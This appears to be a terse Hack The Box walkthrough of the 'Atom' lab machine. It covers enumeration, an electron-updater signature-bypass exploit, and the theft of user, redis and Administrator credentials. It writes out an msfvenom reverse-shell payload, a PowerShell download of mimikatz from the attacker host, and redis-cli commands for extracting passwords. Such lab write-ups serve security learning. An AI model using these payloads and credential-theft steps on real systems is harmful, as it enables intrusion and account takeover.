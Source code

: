
HTB IP: 10.10.10.237

# Enumeration

gobuster directory enum:
```
/images               (Status: 301) [Size: 332] [--> https://atom.htb/images/]
/Images               (Status: 301) [Size: 332] [--> https://atom.htb/Images/]
/releases             (Status: 301) [Size: 334] [--> https://atom.htb/releases/]
/examples             (Status: 503) [Size: 399]
/licenses             (Status: 403) [Size: 418]
/IMAGES               (Status: 301) [Size: 332] [--> https://atom.htb/IMAGES/]
/%20                  (Status: 403) [Size: 299]
/Releases             (Status: 301) [Size: 334] [--> https://atom.htb/Releases/]
/*checkout*           (Status: 403) [Size: 299]
/phpmyadmin           (Status: 403) [Size: 299]
/webalizer            (Status: 403) [Size: 299]
/*docroot*            (Status: 403) [Size: 299]
/*                    (Status: 403) [Size: 299]
/con                  (Status: 403) [Size: 299]
/http%3A              (Status: 403) [Size: 299]
/**http%3a            (Status: 403) [Size: 299]
/*http%3A             (Status: 403) [Size: 299]
/aux                  (Status: 403) [Size: 299]
/**http%3A            (Status: 403) [Size: 299]
/%C0                  (Status: 403) [Size: 299]
```

- Found and downloaded a zip file for window version

SMB client

```
smbclient \\\10.10.10.237\\Software_Updates
smb> get UAT_Software...pdf
```


Exploit: https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html
Exe payload:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.22 LPORT=4445 -f exe > v’ulnerable-app-setup-1.2.3.exe
```

```
latest.yml

```

# Post Exploitation

User creds:
```
 Username:              ATOM\jason
     Password:               kidvscat_electron_@123
     Target:                ATOM\jason
     PersistenceType:       Enterprise
     LastWriteTime:         3/31/2021 2:53:49 AM
```

NLTM Hashes:
```
  [+] Enumerating Security Packages Credentials
  Version: NetNTLMv2
  Hash:    jason::ATOM:1122334455667788:62600b71c1e1421373ce5cc25bddedfa:0101000000000000d89c52205238d701261ff06235107301000000000800300030000000000000000000000000200000247f041ae8b9b47de738a56da142b9edb51b7b3a31dbe348333b7da65357516a0a00100000000000000000000000000000000000090000000000000000000000
```
Possible DLL Hijacking folder:

```
 C:\Users\jason\appdata\Local\programs\heedv1

 [?] Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (ATOM\Administrator) SoftwareUpdates: C:\Users\jason\appdata\roaming\cache\run.bat
    Permissions file: jason [WriteData/CreateFiles AllAccess]
    Permissions folder(DLL Hijacking): jason [WriteData/CreateFiles AllAccess]
    Trigger: At log on of ATOM\jason

   =================================================================================================

    (ATOM\Administrator) UpdateServer: C:\Users\jason\appdata\roaming\cache\http-server.bat
    Permissions file: jason [WriteData/CreateFiles AllAccess]
    Permissions folder(DLL Hijacking): jason [WriteData/CreateFiles AllAccess]
    Trigger: At log on of ATOM\jason
```

python exe:
```
C:\Users\jason\AppData\Local\Microsoft\WindowsApps\python3.exe
```

Download file to Window machine:
`(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.22:8000/mimikatz.exe", "C:\Users\jason\mimikatz.exe")` 

Decrypt password from kanban: https://www.exploit-db.com/exploits/49409

Credentials file:
```
C:\Users\jason\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D


  "RoamingSettings": {
    "DataSource": "RedisServer",
    "DbServer": "localhost",
    "DbPort": 6379,
    "DbEncPassword": "Odh7N3L9aVSeHQmgK/nj7RQL8MEYCUMb",
    "DbServer2": "",
    "DbPort2": 6379,
    "DbEncPassword2": "",
```
redis password: kidvscat_yes_kidvscat

ADmin creds from password:
```
 .\redis-cli.exe -h localhost -p 6379 -n 0 -a "kidvscat_yes_kidvscat" get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}
```

After decode secret key: `kidvscat_admin_@123`
